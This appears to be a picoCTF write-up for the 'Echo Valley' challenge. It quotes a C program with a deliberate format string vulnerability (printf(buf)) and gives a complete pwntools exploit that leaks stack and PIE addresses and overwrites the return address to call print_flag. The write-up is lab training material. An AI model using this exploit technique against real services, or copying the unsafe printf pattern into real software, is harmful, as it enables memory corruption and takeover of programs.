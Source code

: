 After launching the instance, we are given the description:

**The echo valley is a simple function that echoes back whatever you say to it. 
But how do you make it respond with something more interesting, like a flag?
Download the source: [valley.c](https://challenge-files.picoctf.net/c_shape_facility/3540df5468ae2357d00a7a3e2d396e6522b24f7a363cbaff8badcb270d186bda/valley.c)
Download the binary: [valley](https://challenge-files.picoctf.net/c_shape_facility/3540df5468ae2357d00a7a3e2d396e6522b24f7a363cbaff8badcb270d186bda/valley)
Connect to the service at `nc shape-facility.picoctf.net 49319`**

and also the hint:

**Hints: Ever heard of a format string attack?**

After downloading the source and the binary, we take a look at the source code: 
```
#include <stdio.h>

#include <stdlib.h>

#include <string.h>

  

void print_flag() {

    char buf[32];

    FILE *file = fopen("/home/valley/flag.txt", "r");

  

    if (file == NULL) {

      perror("Failed to open flag file");

      exit(EXIT_FAILURE);

    }

    fgets(buf, sizeof(buf), file);

    printf("Congrats! Here is your flag: %s", buf);

    fclose(file);

    exit(EXIT_SUCCESS);

}

  

void echo_valley() {

    printf("Welcome to the Echo Valley, Try Shouting: \n");

  

    char buf[100];

  

    while(1)

    {

        fflush(stdout);

        if (fgets(buf, sizeof(buf), stdin) == NULL) {

          printf("\nEOF detected. Exiting...\n");

          exit(0);

        }

  

        if (strcmp(buf, "exit\n") == 0) {

            printf("The Valley Disappears\n");

            break;

        }

  

        printf("You heard in the distance: ");

        printf(buf);

        fflush(stdout);

    }

    fflush(stdout);

}

  

int main()

{

    echo_valley();

    return 0;

}
```


The *vuln.c* program has 3 functions: main(), echo_valley(), and print_flag(). 
Looking at echo_valley we immediately see a ```printf(buf);```that uses the buffer size 100 without format parameters. As such, we can assume this is what the hint was referring to. 

I took a look at the executable binary file with ```checksec``` 

![alt text](https://github.com/Andrew-exe/picoCTF-writeups/blob/main/Pasted%20image%2020250324190354.png)
Most of the protections were enabled, so instead of trying to overflow, we will need to replace the return value of the stack in the echo_valley() function to the address of the print_flag() function.

With this information in mind, I tried inputting multiple %p to find addresses to leak. 

Using **%21$p**, we get the return value
!(Pasted image 20250324192246.png)

and **%20$p** is the stack leak
!(Pasted image 20250324192511.png)

Using this information, we found the offset using GDB to get the return address of the echo_valley() function and also the print_flag() address. 

Here is our python code that automates this process using pwntools
```
from pwn import *

  

context.update(arch="amd64")

  

def leak(p):

    payload = b"%20$p.%21$p"

    p.sendlineafter(b"Try Shouting: \n", payload)

    return p.recv().strip().split(b" ")[-1]

  

#p = process("./valley")

p = remote("shape-facility.picoctf.net", 64728)

  

all_leaks       = leak(p)

pie_leak        = int(all_leaks.split(b".")[1], 16)

stack_leak      = int(all_leaks.split(b".")[0], 16)

pie_base        = pie_leak - 0x1413

print_flag      = pie_base + 0x1269

target_address  = stack_leak - 8

  

print("[+] pie leak: 0x%x" % pie_leak)

print("[+] stack leak: 0x%x" % stack_leak)

print("[+] pie base @ 0x%x" % pie_base)

print("[+] print_flag @ 0x%x" % print_flag)

print("[+] overwrite target @ 0x%x (echo_valley() return address)" % target_address)

  

# write the upper 4 bytes

writes  = {target_address: print_flag & 0xffffffff }

payload = fmtstr_payload(6, writes)

print(payload)

p.sendline(payload)

p.recvuntil(b"You heard in the distance: ")

  

# write lower 4 bytes

writes = {target_address + 4: print_flag >> 32 }

payload = fmtstr_payload(6, writes)

p.sendline(payload)

p.recvuntil(b"You heard in the distance: ")

  

p.sendline(b"exit")

p.recvuntil(b"The Valley Disappears\n")

  

p.interactive()
```

After running the code and remotely connecting to the server we get the flag. 
!(Pasted image 20250324193118.png)
